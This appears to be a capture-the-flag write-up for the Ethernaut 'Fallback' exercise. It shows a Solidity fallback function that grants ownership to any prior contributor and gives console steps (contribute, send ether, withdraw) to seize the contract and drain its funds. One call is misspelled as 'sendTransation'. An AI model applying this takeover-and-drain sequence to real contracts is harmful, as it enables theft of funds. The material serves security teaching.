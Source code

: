 ## Exercise 1: Fallback

This is a very simple exploit enabled by the ownership change included in the receive() fallback function.

```solidity

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }

```

Here we can see that if any ether is sent to this contract, the sender of the ether takes ownership of the contract. The contract owner is then able to drain the contract of funds via the `withdraw` function:


```javascript
  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
```

The only slight complication is that in order to switch ownership in the fallback function, the ether sender must have made a contribution to the contract via the `contribute` function. 

So, taking ownership of this contract and draining it of funds can be achieved in the following steps:

1) Send some small amount of wei to the contract so our address is included in contributions mapping:
   
   ```javascript
   contract.contribute({value:'1000'})
   ```

2) send some ether to the contract, triggering the fallback function
   ```javascript
    contract.sendTransation({value:'100000'})
   ```

3) now we own the contract, drain the funds using the contract's withdraw() func:
   ```javascript
    contract.withdraw()
   ```

